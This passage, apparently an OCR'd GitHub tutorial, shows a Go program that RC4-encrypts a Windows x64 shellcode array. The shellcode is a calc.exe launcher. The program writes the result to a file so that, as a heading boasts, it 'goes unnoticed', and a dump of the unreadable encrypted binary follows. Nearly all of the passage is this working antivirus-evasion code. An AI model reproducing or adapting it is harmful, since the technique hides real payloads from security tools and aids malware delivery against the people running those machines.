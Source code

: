 ```go
		0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
		0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
		0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
		0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
		0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
		0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
		0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
		0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
		0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
		0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
		0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
		0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
		0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
		0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
		0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
		0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00,
	}
	// Set the RC4 key
	key := []byte("Secret")

	// Create a new RC4 cipher with the key
	cipher, err := rc4.NewCipher(key)
	if err != nil {
		log.Fatal("Error creating RC4 cipher:", err)
	}

	// Encrypt the shellcode
	cipher.XORKeyStream(shellcode, shellcode)

	// Write the encrypted shellcode to the output file
	outputFile := os.Args[1]
	err = ioutil.WriteFile(outputFile, shellcode, 0644)
	if err != nil {
		log.Fatal("Error writing output file:", err)
	}

	log.Println("Encryption completed successfully.")
}
``` 

## T3h encrypted shellcode looks like this... Much different than the raw shellcode, so it goes unnoticed.

**encrypted_shellcode.bin** 
```  
�����@�YArq{����dY��<�%}��
P>{��=�Fe=���� _�nzk�����[�}��%�?��������g�ُ�\nl��(��WwlC�m�;
E���u��~�$��k���؄i�&t�i;M(e;J�|�uv��}�	'����J9��a
1nC�����
�ˏ����F�������ϚX�9y�n�Xa�;ŀ̸�4
`����>lig����
�wHW�`
���Ce^F+�G�w�q�o#��( �o�[�F&4���z3�$̳_�
``` 
